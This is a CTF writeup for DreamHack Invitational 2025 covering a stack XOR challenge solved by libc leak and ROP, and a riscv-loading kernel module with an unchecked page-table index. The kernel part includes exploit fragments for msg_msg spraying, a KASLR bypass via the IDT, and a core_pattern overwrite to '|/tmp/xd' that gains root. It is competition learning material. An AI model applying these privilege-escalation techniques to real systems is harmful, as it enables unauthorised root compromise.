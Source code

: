 +++
title = "Writeup of DreamHack Invitational 2025"
date = 2025-04-09
description = "Brief writeup of DreamHack Invitational 2025"
[taxonomies]
tags = ["pwn", "kernel", "heap", "ROP"]
+++

# xoronly

stack上に無限に書き込むことができます。書き込みは既にある値とxorが取られれます。xor後の文字列は`puts`されます。

## challenge

```c
int main()
{
    char buf[0x100] = {0,};

    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    puts("Welcome to the XOR-only encryption service!");
    puts("We will encrypt your data with a single byte key.");
    puts("Please enter your data");

    while(1)
    {
        printf("> ");

        for(int i=0;; i++)
        {
            char c = getchar();
            if(c == '\n')
            {
                buf[i] = 0;
                break;
            }
            if(!isalnum(c))
            {
                puts("Invalid character detected!");
                return 0;
            }
            buf[i] ^= c;
        }

        printf("Here is your encrypted data: ");
        puts(buf);
    }
}
```

## exploit

### aslr leak

`__libc_start_main`のアドレスを`puts(buf)`でleakします。

### ROP

`[0x00, 0-9, A-z]`が入力できて、xorすることができるので、`0 - 0x7f`までの任意の数値を作り出せます。
後はlibcのアドレスが`0x00 - 0x7f`までで構成されるアドレスになるまで接続を繰り返すことで、`pop rdi; system`のROPをします。

# kidheap

WIP

# ainque

The provided kernel module can load riscv ELF binary and run it in kernel context.

## vulnerability

`pml4e_index` has no validation. It can exceed 0x200, which cause OOB access. \

```c
static QCPU_EXIT_TYPE write_memory(qvm_t *qvm, uint64_t va, uint64_t size, uint64_t value, bool is_signed) {
    for(int i=0; i<size; i++) {
        qcpu_pte_or_fail pte_safe = qcpu_get_pte_from_va_failsafe(qvm->qcpu.cr3, va+i);
        if(pte_safe.success) {
            ((uint8_t *)PTE_TO_PHYS(pte_safe.pte))[(va+i) & 0xfff] = (uint8_t)((value >> (i*8)) & 0xff);
        } else {
            return QCPU_SIGSEGV;
        }
    }
    return QCPU_CONTINUE;
}
```

```c
qcpu_pte_or_fail qcpu_get_pte_from_va_failsafe(qcpu_pte_t ****cr3, uint64_t va) {
    qcpu_pte_t ***pml4e = qcpu_get_pml4e(cr3, va >> 39);
// the following omitted

qcpu_pte_t ***qcpu_get_pml4e(qcpu_pte_t ****cr3, uint64_t pml4e_index)
{
    return cr3[pml4e_index];
}
```

## exploit

### kaslr bypass

The basic strategy is spraying `msg_msg` and use it as `cr3`.
`msg_msg` has `list_head` member, which has a valid pointer, they can be used as `pml4e` or `pdpe`.

We can leak kbase by reading IDT region, which is located at fixed virtual address.

```c
  // VM side
  unsigned long gate = *(long *)PTI_TO_VIRT(0x2000 + 1, 1, 0, 6, 0) >> 52;
  unsigned long kbase_diff = gate - 0x820;
```

To load crafted value as `pml4e`, spray a bunch of `msg_msg` struct after `QVM_LOAD`. It contains the all possible pointer (0x200) pointing to `&core_pattern` considering KASLR.

```c
  // Host side
  rep(i, 0x1f8) {
    ((unsigned long *)msg_buf.mtext)[i + 1] =
    0xfffffffflu * 0x100000
    | (i + 0x82blu) * 0x100lu  // KASLR bypass
    | 0x7b
    | (0x8000000000000000l);
  }
```

{{ image(path="static/pagetable.png", caption="IDT address and all possible kbase address") }}

### core_pattern overwrite

By writing `|/tmp/xd` into `core_pattern` and causing crash, the kernel executes `/tmp/xd` as root.

```c
  // VM side
  *(long *)PTI_TO_VIRT(0x2000 + 1, 1, 0, 7 + kbase_diff & 0xfff, 0xc20) =
      0x64782f706d742f7c; // |/tmp/xd
```
